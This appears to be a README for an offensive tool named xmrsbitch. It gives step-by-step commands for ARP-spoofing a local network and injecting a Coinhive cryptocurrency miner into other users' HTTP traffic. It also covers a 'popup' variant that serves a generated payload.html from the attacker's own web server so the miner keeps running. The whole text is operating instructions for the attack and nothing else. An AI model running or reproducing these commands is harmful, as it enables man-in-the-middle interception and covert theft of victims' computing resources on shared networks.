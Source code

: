 
		

TO USE:	
	 
You will first need to make sure that you have `MitMf` and also `Twisted version 15.5.0`
To install dependencies run:
        `./xmrsbitch.sh --install`
	
   ----To use a simple miner attack----
	
   The standard network attack arp spoofs the network, then injects a miner into http responses.
   To launch a standard miner injection attack run:
      ` ./xmrsbitch.sh <coinhive api key> <gateway ip> <interface name>`
	
	
   ----To use a popup miner attack----
	
   A popup miner attack will attempt to inject a script into http responses. The script will wait for the user to click a button.
   When they do it will spawn a popup with their site in it and the orignal window will launch a miner 
	
   First run:
      ` ./xmrsbitch.sh --generate <coinhive api key>`
	
   and place payload.html into your web server root directory
	
   Second run:
    `   ./xmrsbitch.sh -p <gateway ip> <interface name> <web server ip>`
	
	

